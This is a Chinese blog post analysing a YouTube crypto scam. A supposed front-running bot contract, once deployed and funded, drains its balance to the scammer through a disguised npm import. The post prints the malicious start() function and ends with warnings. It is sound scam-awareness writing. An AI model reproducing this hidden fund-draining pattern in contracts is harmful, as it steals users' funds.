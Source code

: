 ```yaml
---
layout: post
title: "差点被骗了一个ETH"
date: 2022-09-11 22:30
---
```


### 起因

前段时间在群里看到群友发了一个油管的[链接](https://www.youtube.com/watch?app=KWnnhv&v=UtOrHj83hSQ%3DcdKfd9)，视频内容大致就是你只需按照他的代码部署机器人的EVM合约即可躺赚收益，原理就是狙击在Uniswap在某些大额交易变成“事实”之前抢先插队在大额买入或卖出之前买入，并且在大额买入或卖出成功后立马卖出或买入完成套利。



### 经过

抱着怀疑态度，看了下评论（当时觉得800多条评论，不可能是假的吧），觉得卧槽牛逼，赶紧试一下。作者还为大家解惑，为什么免费分享代码，是因为想建立自己在圈子的影响力，说得跟真的一样。

![](https://upload-images.jianshu.io/upload_images/2782305-3f4e97132f615f3d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



![](https://upload-images.jianshu.io/upload_images/2782305-4a266de449aeec12.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




代码很简单，[https://pastebin.com/raw/vY4Y2c1y](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbVF5cGluQjJIcmZPVlBhemxIRlFZU0JQVmVOZ3xBQ3Jtc0trcDZaQ291dWd3UTBlaXc5ZThKZE5PRG1wbHJKOG9KcnhYSWtuTEZmRE9nYkhITzB6dkZublQ0YmZkQzNRNThlbk11RUkyWjF2NUN5SjRFTUpEWTNycXVLYXFya2VmeHNfdndRWG5ZRjkzVGVVV29ZYw&q=https%3A%2F%2Fpastebin.com%2Fraw%2FvY4Y2c1y&v=UtOrHj83hSQ)，就一个文件，用remix连接狐狸部署即可，然后向合约转钱，手动执行合约的函数就可以开始赚钱，教程里说转的eth越多赚的越多。

谨慎起见还是用测试网络Ropsten试一下，测试不要钱，反正从水龙头可以随便拿钱（https://faucet.metamask.io/）。

![](https://upload-images.jianshu.io/upload_images/2782305-d8b2664cc4502abb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-2c38630f4c1f29b2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


部署完毕，合约放了两个函数出来`start`就是开始开始赚取收益，`withdraw`就是把合约里的钱进行提现 （看似逻辑非常完美），因为合约也是你自己部署的，自己往合约上转钱。

往合约转1eth

![](https://upload-images.jianshu.io/upload_images/2782305-ef889440ae7867fe.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


有了，点击`start`！开始赚钱！

![](https://upload-images.jianshu.io/upload_images/2782305-ab4aba6ad35842a9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


下一刻，钱没了。看下内部转账，调用`start`之后，合约内部往下面这个地址转了所有的钱。

![](https://upload-images.jianshu.io/upload_images/2782305-ac22d9b1f31bc53e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


开始百思不得其解，因为在代码全局里根本搜不到这个地址。

回来看下`start`方法

```solidity
function start() public payable {      

  /*
  * @dev Perform frontrun action from different contract pools
  * @param contract address to snipe liquidity from
  * @return `liquidity`.
  */

  payable(manager.DepositAddress()).transfer(address(this).balance);
}
```

这个`manager.DepositAddress()`很有误导性，看起来是合约的管理者，但`manager`这个类在代码里找不到。

花了很久很久，终于。。。发现了一个可疑的引入

![](https://upload-images.jianshu.io/upload_images/2782305-d6eb2fbdfe7bc487.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




在`npmjs.com`一搜出来是这么个玩意，死都想不到是这个cmc的npm出了问题。真就还以为是cmc官网的api。真的太有迷惑性了。

![](https://upload-images.jianshu.io/upload_images/2782305-ac62371c7723c090.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




在非常隐蔽的地方找到了这个manager类，其余代码都已注释

![](https://upload-images.jianshu.io/upload_images/2782305-8ee4161188a6d2d0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-e801396f778adc74.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-779d265b062a7250.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


最终在这里返回了骗子的地址。




### 总结

1.凡是说只要部署合约就能赚钱的大概率是骗子，夹子机器是一个复杂的技术, 仅有合约是不能夹到交易的, 因为合约不会自动运行, 必须要有脚本去调用合约，evm上的合约需要消费gas，都是有执行生命周期的，不可能一直在那运行进行监控。

2.小白部署合约前，即使看不懂solidty代码，也应该在testnet进行测试，确保合约的安全性。

3.solidty的引入默认会从npm拉取，而npm.js上的包上传是不需要任何认证和经过安全review的，引入npm时，请确保该包是否有毒。我在上面后续发现了大量具有迷惑性名称的package来假装官方的package。

4.世界上没有不劳而获的事情，不断提高自己的认知是获的前提。
